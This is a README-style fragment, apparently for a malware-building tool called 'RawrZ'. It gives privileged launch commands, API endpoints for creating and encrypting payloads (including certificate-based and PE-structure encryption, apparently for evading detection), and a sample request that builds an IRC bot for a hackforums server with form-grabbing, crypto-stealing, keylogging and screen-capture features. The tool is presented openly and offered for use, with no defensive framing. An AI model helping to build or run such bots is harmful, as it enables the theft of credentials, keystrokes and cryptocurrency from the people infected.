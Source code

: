 
## 🚀 **Getting Started with Elevated Privileges**

### **Windows (Recommended):**
```bash
# Right-click and "Run as administrator"
start-elevated.bat
```

### **PowerShell:**
```powershell
# Run PowerShell as Administrator, then:
.\start-elevated.ps1
```

### **Docker (Privileged):**
```bash
# Deploy with full privileges
.\deploy-privileged.ps1
```

---

## 🎯 **API Endpoints for Bot Management**

### **Bot Generation:**
- `POST /api/rawrz-engine/execute` - Execute bot operations
- `POST /api/rawrz-engine/execute-multiple` - Multiple bot operations
- `GET /api/rawrz-engine/modules` - List all available modules
- `GET /api/rawrz-engine/status` - System status and health

### **Advanced Features:**
- `POST /payload-create` - Create custom payloads
- `POST /payload-encrypt` - Encrypt payloads with multiple algorithms
- `POST /ev-encrypt` - EV certificate encryption
- `POST /advanced-encrypt` - Advanced encryption with PE structure
- `POST /advanced-encrypt-binary` - Direct binary download

---

## 🔥 **Real-World Usage Examples**

### **IRC Bot with Full Features:**
```json
{
  "engineId": "irc-bot-generator",
  "action": "generateIRCBot",
  "params": {
    "botConfig": {
      "server": "irc.hackforums.net",
      "channel": "#crypto",
      "features": ["formGrabber", "cryptoStealer", "keylogger", "screenCapture"]
    }
  }
}
```
